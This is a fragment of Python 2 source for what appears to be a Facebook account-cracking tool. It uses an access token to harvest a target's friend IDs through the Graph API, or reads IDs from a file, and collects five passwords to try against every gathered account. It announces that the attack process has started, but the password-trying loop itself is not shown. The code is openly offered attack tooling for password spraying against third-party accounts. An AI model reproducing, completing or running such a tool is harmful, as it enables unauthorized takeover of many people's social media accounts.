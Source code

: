 	elif c1m =="2":
		os.system("clear")
		print (banner)
		idt = raw_input("[✓] Enter ID : ")
		pass1=raw_input("[1] Input Password  : ")
		pass2=raw_input("[2] Input Password  : ")
		pass3=raw_input("[3] Input Password  : ")
		pass4=raw_input("[4] Input Password  : ")
		pass5=raw_input("[5] Input Password  : ")
		print(47*"-")
		print (banner)
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			hamza("[✓] Account  Name: "+op["name"])
			
			time.sleep(0.5)
		except KeyError:
			print("[!] ID Not Found!")
			raw_input("\nPress Enter To Back ")
			choice1()
		print"\033[1;35;40m[✺] Getting IDs..."
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif c1m =="3":
		os.system("clear")
		print (banner)
		try:
			idlist = raw_input("[✓] Enter File Path  : ")
			pass1=raw_input("[1] Input Password  : ")
			pass2=raw_input("[2] Input Password  : ")
			pass3=raw_input("[3] Input Password  : ")
			pass4=raw_input("[4] Input Password  : ")
			pass5=raw_input("[5] Input Password  : ")
			print(47*"-")
			for line in open(idlist,"r").readlines():
				id.append(line.strip())
		except IOError:
			print ("[!] File Not Found")
			raw_input("\nPress Enter To Back ")
			choice1()
	elif c1m =="0":
		menu2()
	else:
		print ("[!] Fill in correctly")
		choice1_menu()
	rana = str(len(id))
	hamza ("[✓] Total Friends: "+rana)
	time.sleep(0.5)
	hamza ("[✓] The Process Has Been Started.")
	time.sleep(0.5)
	hamza ("[!] Press CTRL Z To Stop Process")
	time.sleep(0.5)
	print (47*"-")
	